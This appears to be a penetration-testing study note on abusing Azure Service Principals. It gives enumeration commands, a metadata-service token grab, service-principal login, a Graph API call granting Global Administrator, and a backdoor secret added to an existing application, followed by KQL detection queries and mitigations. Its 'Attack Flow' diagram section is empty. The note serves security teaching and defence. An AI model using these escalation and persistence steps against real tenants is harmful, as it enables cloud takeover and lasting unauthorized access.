

# 06 - Abusing Azure Service Principals

## 1. Introduction and Core Concepts

Azure Service Principals (SPs) are the core non-human identities within Azure Active Directory (Entra ID). Whenever an application needs to interact with Azure resources or the Microsoft Graph API, it requires an identity. This identity is the Service Principal. Because SPs are designed for automation and machine-to-machine communication, they often possess highly privileged roles (such as Contributor, Owner, or Global Administrator) but bypass traditional user protections like Multi-Factor Authentication (MFA). 

In advanced Azure VAPT scenarios, compromising a Service Principal is often a direct path to domain-wide compromise, data exfiltration, or complete infrastructure takeover. Attackers actively seek out SP credentials in code repositories, CI/CD pipelines, key vaults, or even local developer machines, as they represent high-value, low-friction targets.

## 2. Architecture: Service Principals vs App Registrations

To understand how to abuse SPs, one must distinguish between the Application Object (App Registration) and the Service Principal Object (Enterprise Application):

- **Application Object (App Registration):** Think of this as the blueprint or the global definition of the application. It resides in the home tenant and contains the configuration, secrets, certificates, and requested API permissions (OAuth scopes).
- **Service Principal Object (Enterprise Application):** This is the instantiation of the application in a specific tenant. It is the actual identity that requests tokens, logs in, and holds the Role-Based Access Control (RBAC) permissions or Graph API roles within that specific tenant.

When an attacker compromises the secrets of an App Registration, they effectively assume the identity of the Service Principal across any tenant where it has been instantiated (usually just the home tenant, but potentially others in multi-tenant apps).

## 3. Attack Surface and Vectors

The attack surface surrounding Service Principals is vast:
1. **Hardcoded Credentials:** Developers frequently embed Client IDs and Secrets in scripts, terraform configurations, or application code.
2. **Environment Variables:** CI/CD runners and application services often load SP secrets as environment variables, which can be dumped via SSRF or RCE.
3. **Over-privileged Assignments:** SPs are often granted `Owner` or `Role Based Access Control Administrator` roles, allowing privilege escalation.
4. **Graph API Abuse:** SPs with `AppRoleAssignment.ReadWrite.All` or `RoleManagement.ReadWrite.Directory` can grant themselves or other identities global admin rights in Entra ID.
5. **Persistence:** An attacker who compromises a user with `Application Administrator` rights can add a new secret or certificate to an existing SP, establishing a stealthy backdoor.

## 4. Attack Flow (ASCII Diagram)



## 5. Enumerating Service Principals

Enumeration begins once an attacker has a foothold (either a low-privileged user or another SP). Tools like `ROADRecon`, `AzureHound`, or native PowerShell modules are heavily utilized.

Using the Azure CLI to list all Service Principals:
```bash
az ad sp list --all --output json
```

Using PowerShell (AzureAD Module):
```powershell
Connect-AzureAD
Get-AzureADServicePrincipal -All $true | Select-Object DisplayName, AppId, ObjectId
```

An attacker will look for SPs with interesting names (e.g., `Terraform-Deployer`, `KeyVault-Reader`, `Backup-Service`) and examine their role assignments.

```bash
# Check roles assigned to a specific SP
az role assignment list --assignee <SP_ObjectId> --all
```

## 6. Extracting Credentials

Credentials for Service Principals are typically either passwords (secrets) or certificates. Attackers hunt for these in:
- **Local Workstations:** `~/.azure/credentials`, `~/.azure/azureProfile.json`
- **Source Code:** Searching for `client_secret` or `password` in git repositories.
- **Azure Instance Metadata Service (IMDS):** If an attacker breaches a VM, they can query the IMDS to get a token for the VM's Managed Identity (which is mathematically a Service Principal).

```bash
curl -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

## 7. Authenticating as a Service Principal

Once credentials (Client ID, Tenant ID, and Client Secret) are obtained, the attacker can authenticate programmatically or via CLI.

Using Azure CLI:
```bash
az login --service-principal -u <AppId> -p <ClientSecret> --tenant <TenantId>
```

Requesting a raw token via REST API for custom exploitation scripts:
```http
POST /<TenantId>/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
Content-Type: application/x-www-form-urlencoded

client_id=<AppId>&
scope=https%3A%2F%2Fgraph.microsoft.com%2F.default&
client_secret=<ClientSecret>&
grant_type=client_credentials
```

This returns an Access Token that can be used as a Bearer token in subsequent requests.

## 8. Privilege Escalation via Graph API

If a Service Principal has high-privileged Graph API permissions (Application permissions), it can be devastating. 
For example, if the SP has `RoleManagement.ReadWrite.Directory`, the attacker can add themselves or the SP to the `Global Administrator` role.

Using the Entra ID (Graph) API to escalate:
```bash
# Get the role template ID for Global Admin
ROLE_ID="62e90394-69f5-4237-9190-012177145e10"

# Add the attacker's object ID to the role
curl -X POST "https://graph.microsoft.com/v1.0/roleManagement/directory/roleAssignments" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
        "principalId": "<Attacker_ObjectId>",
        "roleDefinitionId": "'$ROLE_ID'",
        "directoryScopeId": "/"
      }'
```

Similarly, `AppRoleAssignment.ReadWrite.All` allows the SP to grant itself any other Graph API permission.

## 9. Persistence Mechanisms

Attackers often use Service Principals as backdoors. If an attacker compromises a user with `Application Administrator` or `Cloud Application Administrator` roles, they can add a new secret to an existing, highly privileged Service Principal.

Using Azure CLI to add a new password (secret) to an SP:
```bash
az ad app credential reset --id <AppId> --append --display-name "BackupSecret" --years 2
```

Because the original app owner still has their legitimate credentials, the application continues to function normally, but the attacker now has a permanent backdoor credential that bypassing MFA.

## 10. Detection Engineering (KQL)

Detecting SP abuse requires monitoring Azure AD Audit logs and Azure Activity logs.

**Detecting new credentials added to an App/SP:**
```kusto
AuditLogs
| where OperationName has "Add service principal credentials" or OperationName has "Update application – Certificates and secrets management"
| extend Actor = tostring(parse_json(tostring(InitiatedBy.user)).userPrincipalName)
| extend TargetApp = tostring(TargetResources[0].displayName)
| project TimeGenerated, Actor, TargetApp, OperationName, Result
```

**Detecting anomalous SP logins:**
```kusto
AADServicePrincipalSignInLogs
| where TimeGenerated > ago(7d)
| summarize IPCount=dcount(IPAddress) by ServicePrincipalId, ServicePrincipalName
| where IPCount > 3 // Tune based on environment
| sort by IPCount desc
```

## 11. Mitigation Strategies

1. **Eliminate Shared Secrets:** Move from secret-based Service Principals to Managed Identities wherever possible, as Azure handles the rotation and storage of Managed Identity credentials.
2. **Certificate over Passwords:** If SPs must be used, enforce the use of Certificates instead of static client secrets.
3. **Strict RBAC:** Follow the Principle of Least Privilege. Never assign `Owner` or `User Access Administrator` to an SP unless absolutely necessary.
4. **Conditional Access for Workload Identities:** Enforce location-based restrictions and risk-based policies on Service Principals.
5. **Regular Auditing:** Continuously audit and alert on the addition of new secrets to App Registrations.

## 12. Chaining Opportunities

- **Initial Access -> Persistence:** A developer's breached laptop yields an SP secret, which is then used to backdoor Entra ID.
- **SSRF -> Token Dump -> Privilege Escalation:** An SSRF vulnerability in a web app is used to dump the IMDS token, acting as the Managed Identity, which happens to have `RoleManagement.ReadWrite.Directory`.
- **Pipeline Poisoning:** Can be chained with [[09 - Attacking Azure DevOps CI CD Pipelines]] to extract SP tokens natively from Azure DevOps runners.

## 13. Related Notes

- [[01 - Introduction to Entra ID Security]]
- [[02 - Azure RBAC and Identity Architecture]]
- [[07 - Azure Automation Accounts and Runbooks Exploitation]]
- [[08 - Azure Key Vault Extraction and Secrets Dumping]]
